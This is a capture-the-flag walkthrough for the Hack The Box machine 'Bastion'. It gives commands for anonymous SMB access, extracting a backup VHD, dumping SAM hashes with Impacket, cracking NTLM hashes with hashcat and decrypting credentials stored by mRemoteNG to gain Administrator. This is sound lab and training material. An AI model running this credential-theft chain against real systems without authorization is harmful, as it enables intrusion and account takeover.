 # Bastion HTB Walkthrough

## Target Information
- **IP Address**: 10.10.10.134
- **Hostname**: bastion.htb
- **OS**: Windows Server 2016 Standard 14393

---

## 🛠 Initial Setup & Reconnaissance

### 🎯 Environment Preparation
1. Store target IP for automation:
```bash
echo "10.10.10.134" > target
```

2. Add DNS resolution to hosts file:
```bash
echo "10.10.10.134 bastion.htb" | sudo tee -a /etc/hosts
```

---

## 🔍 Network Enumeration

### Port Discovery
Performed full TCP port scan:
```bash
nmap -p- -iL target -v -oN nmap/tcp_ports_scan.txt
```

**Findings**:
```
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664-49670/tcp open  msrpc
```

### Service Enumeration
Aggressive scan on open ports:
```bash
ports=$(awk -F '/' 'NR>=6 && NR<=18 {print $1}' nmap/tcp_ports_scan.txt | paste -sd ',')
nmap -p$ports -sCV -oA nmap/service_scan -iL target
```

**Key Findings**:
- SMB (445/tcp): Windows Server 2016 Standard
- WinRM (5985/47001): Potential remote management access
- SSH (22/tcp): OpenSSH for Windows 7.9

---

## 📁 SMB Exploitation

### Share Enumeration
List available SMB shares:
```bash
smbclient -L \\\\bastion.htb\\ -N
```

**Discovered Shares**:
![image](https://github.com/user-attachments/assets/ce65f502-3ed9-4113-bab3-5894284dfaca)

### Accessing Backups Share
Anonymous access to Backups share:
```bash
smbclient \\\\bastion.htb\\Backups -N
```

**Discovered Files**:
- 9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd (System Boot)
- 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd (User Data)

### Mounting Virtual Hard Disks
1. Mount SMB share:
```bash
mkdir /mnt/backups
mount -t cifs //bastion.htb/Backups /mnt/backups -o ro,vers=2.1
```

3. Extract and mount VHD (if you got an error, try to list on it anyway):
```bash
mkdir /tmp/vhd
7z x /mnt/backups/9b9cfbc4-*.vhd -o/tmp/vhd
```

### Credential Extraction
Dump SAM database using Impacket:
```bash
impacket-secretsdump -sam /tmp/vhd/Windows/System32/config/SAM \
                     -system /tmp/vhd/Windows/System32/config/SYSTEM LOCAL
```

**Extracted Hashes**:
```
Administrator:500:aad3b... 
L4mpje:1000:aad3b... 
```

### Password Cracking
Crack NTLM hashes with Hashcat:
```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

### Initial Access

#### SSH Connection
Authenticate with obtained credentials:
```bash
ssh L4mpje@bastion.htb
```

You'll got the user flag.

## Resources

* This is another interesting way to mount vhd files: [Mounting VHD file on Kali Linux through remote share](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

---

## ⚙️ Privilege Escalation

**mRemoteNG Credential Extraction**

1. Found [mRemoteNG](https://mremoteng.org/) installed in:
```shell
C:\Program Files (x86)\
```

![Screenshot from 2025-04-13 11-44-43](https://github.com/user-attachments/assets/2d9c9075-9bd5-45d9-b7d0-281d6aa26a2e)

2. Config file with saved credentials:
```shell
C:\Users\<User>\AppData\Roaming\mRemoteNG\confCons.xml
```

![Screenshot from 2025-04-13 11-45-57](https://github.com/user-attachments/assets/3b5cf8f9-6d7d-4336-bbce-cde11edeee8c)

3. Base64 encoded password was found in the file.

4. Decrypt password using the Python tool [mRemoteNG Decrypt](https://github.com/kmahyyg/mRemoteNG-Decrypt):

```bash
git clone https://github.com/kmahyyg/mremoteng-decrypt.git
cd mremoteng-decrypt
python3 mremoteng_decrypt.py -s <Base64 string>
```

5. Logged in as Administrator using decrypted credentials.

### Resources

* [mRemoteNG](https://mremoteng.org/)
* [GitHub - mRemoteNG](https://github.com/mRemoteNG/mRemoteNG)
* [GitHub - mRemoteNG Decrypt](https://github.com/kmahyyg/mRemoteNG-Decrypt)

---

## 🏁 Summary

* ✅ Initial access: SMB share > VHD > Password hash dump > SSH login
* 🔐 Privilege escalation: Extract mRemoteNG creds > Decrypt > Admin access

---
